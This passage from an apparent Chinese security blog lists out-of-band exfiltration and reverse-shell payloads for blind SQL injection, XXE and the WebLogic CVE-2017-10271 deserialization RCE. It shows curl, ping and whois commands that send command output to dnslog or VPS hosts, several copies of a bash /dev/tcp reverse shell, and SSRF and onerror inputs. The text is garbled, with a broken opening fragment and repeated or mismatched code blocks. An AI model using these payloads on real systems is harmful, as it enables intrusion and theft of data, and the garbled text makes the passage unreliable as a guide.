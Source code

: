 去除方框中的 "my-jobs"，即为命令回显结果

### **后记**

那么这些东西可以配合哪些场景使用了？

#### **1.SQL 注入**

当我们的 SQL 注入为盲注时，它可是不会返回结果的。

```
ping `命令`.dnslog
curl dnslog/`命令|base64|tr '\n' '-'`
curl dnslog/`命令|tr '\n' '-'`
whois -h vps‘ip -p port `命令`
whois -h vps‘ip -p port `命令 |base64`
cancel -u "$(命令)" -h vps'ip:port
```

众所周知，mysql 中 load_file 是可以执行 dns 请求的，注意 dnslog 前面有个 "."，千万不要忘记了。

#### **2.XXE**

我们只需要把 dtd 文件换成下面的内容即可

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

#### **3.RCE**  

前面的部分基本上都在展示执行命令，这里我们结合一下 Weblogic XML Decoder 反序列化 (CVE-2017-10271)

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

我们只需要替换一下上文中命令的部分为如下的任意一种 (请注意 html 实体编码，payload 默认为 Linux，win 需要修改 / bin/bash 为 cmd 或者 cmd.exe,-c 为 / c)

![](https://mmbiz.qpic.cn/mmbiz/fQ4PtepQmkoLdOYjMIEdQyc8aicMs4Lz0sBNUAcBxYVCMiax6icew1EBYXoV6Ujmgxxo33eR9Vqsvm9gicxjibEcDRA/640?wx_fmt=other)

html 实体编码

```
video_url=http://vps'ip:port
video_url=dnslog
```

```
<IMG SRC=# onerror=http://dnslog/随便输入字母>
```

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```
